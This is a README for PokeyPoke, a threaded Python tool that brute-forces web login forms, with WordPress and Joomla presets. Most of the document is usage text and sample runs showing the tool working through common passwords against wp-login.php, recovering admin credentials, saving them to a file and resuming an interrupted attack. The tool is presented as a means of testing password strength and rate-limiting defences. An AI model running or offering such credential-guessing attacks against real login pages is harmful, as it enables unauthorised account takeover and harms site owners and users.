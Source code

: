 # pokeypoke
### Brute force penetration tester

PokeyPoke is a simple threaded login form brute forcer written in Python 3.  The interface supports flexible form input names and should function for any non-captcha'd login forms which use CSRF or other similar hidden field authentication.  This tool is especially effective in testing group password strengths and the efficacy of brute-force prevention plugins or methodologies, such as IP-based ratelimiting and etc.

NOTE: This tool is only as effective as the password list used.  Various lists are available from security services which provide granular targeting based on the installation (WordPress, Joomla, etc) and are compiled into top N (100, 1000, 100000, etc) lists for rapid checking of the most commonly found passwords.

### Usage
```
usage: pokeypoke.py [-h] [-m MAX_THREADS] -w WORD_LIST -t
                    [TARGET [TARGET ...]] [-v] [-C] [-u UNAME_FIELD]
                    [-p PASSWD_FIELD] [-r RESUME]
                    [-s [SUCCESS_STR [SUCCESS_STR ...]]]
                    [-U [USERNAME [USERNAME ...]]] [-o OUTFILE] [--wp]
                    [--joomla]

optional arguments:
  -h, --help            show this help message and exit
  -m MAX_THREADS, --max-threads MAX_THREADS
                        Maximum concurrent worker threads
  -w WORD_LIST, --word-list WORD_LIST
                        Path to word list
  -t [TARGET [TARGET ...]], --target [TARGET [TARGET ...]]
                        Target URL(s)
  -v, --verbose         Enable verbose output
  -C, --nocolor         Suppress colors in output
  -u UNAME_FIELD, --uname-field UNAME_FIELD
                        Login form username field name
  -p PASSWD_FIELD, --passwd-field PASSWD_FIELD
                        Login form password field name
  -r RESUME, --resume RESUME
                        Resume from a certain word (for termed attempts)
  -s [SUCCESS_STR [SUCCESS_STR ...]], --success-str [SUCCESS_STR [SUCCESS_STR ...]]
                        Successful login identifier string(s)
  -U [USERNAME [USERNAME ...]], --username [USERNAME [USERNAME ...]]
                        Login username(s) to attempt
  -o OUTFILE, --outfile OUTFILE
                        Discovered credential output
  --wp                  Use WordPress form element names
  --joomla              Use Joomla form element names
```
--target & --word-list are required when executing via the command line.  When seeking WordPress or Joomla targets, use the --wp or --joomla flags, which set appropriate login form element names and success strings.
```
# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php --username admin -v --wp
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : https://test.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : None
 -  Success String(s)   : Logged In, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin
 -  Output File         : creds.20170718-173742.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://test.us/wp-login.php
 -  Found 1000000 words
 -  Trying 123456, 999999 words remain
 -  Trying password, 999998 words remain
 -  Trying 12345678, 999997 words remain
 -  Trying qwerty, 999996 words remain
 -  Trying 123456789, 999995 words remain
 -  Trying 12345, 999994 words remain
 -  Trying 1234, 999993 words remain
 -  Trying 111111, 999992 words remain
 -  Trying 1234567, 999991 words remain
 -  Trying dragon, 999990 words remain
 -  Trying 123123, 999989 words remain
 -  Trying baseball, 999988 words remain
 -  Trying abc123, 999987 words remain
 -  Trying football, 999986 words remain
 -  Trying monkey, 999985 words remain
 -  Logged in: Welcome to your WordPress Dashboard!
[!] Target: https://test.us/wp-login.php :: Password for admin: dragon
 -  Writing output to creds.20170718-173742.txt
[*] Completed
```
The --target, --username, and --success-str options each support multiple space-delimited arguments.
```
# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php https://test1.us/wp-login.php --username admin user otheruser -v --wp --success-str 'Welcome, Admin!' 'Welcome, Bill!'
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : hhttps://test.us/wp-login.php, https://test1.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : None
 -  Success String(s)   : Welcome, Admin!, Welcome, Bill!, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin, user, otheruser
 -  Output File         : creds.20170718-174346.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://test.us/wp-login.php
...
```
Consecutive target hits are each appended to the result file, one entry per line.
```
# cat creds.20170718-173742.txt 
https://test.us/wp-login.php:username=admin:password=dragon
https://test1.us/wp-login.php:username=user:password=1234567
```
When interrupted, the next word in queue to be processed is presented.  This can be used with the --resume flag to pick up at a specific point in the password list.
```
# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php -v --wp               
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : https://test.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : None
 -  Success String(s)   : Logged In, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin
 -  Output File         : creds.20170718-175456.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://test.us/wp-login.php
 -  Found 1000000 words
 -  Trying 123456, 999999 words remain
 -  Trying password, 999998 words remain
 -  Trying 12345678, 999997 words remain
 -  Trying qwerty, 999996 words remain
 -  Trying 123456789, 999995 words remain
 -  Trying 12345, 999994 words remain
 -  Trying 1234, 999993 words remain
^C -  Resume on: 111111
[*] Completed

# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php -v --wp --resume 111111
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : https://test.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : 111111
 -  Success String(s)   : Logged In, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin
 -  Output File         : creds.20170718-175510.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://test.us/wp-login.php
 -  Resuming from 111111
 -  Found 999992 words
 -  Trying 1234567, 999991 words remain
 -  Trying dragon, 999990 words remain
 -  Trying 123123, 999989 words remain
 -  Trying baseball, 999988 words remain
 -  Trying abc123, 999987 words remain
 -  Trying football, 999986 words remain
 -  Trying monkey, 999985 words remain
 -  Trying letmein, 999984 words remain
 -  Trying 696969, 999983 words remain
 -  Logged in: Welcome to your WordPress Dashboard!
[!] Target: https://test.us/wp-login.php :: Password for admin: dragon
 -  Writing output to creds.20170718-175510.txt
[*] Completed
```
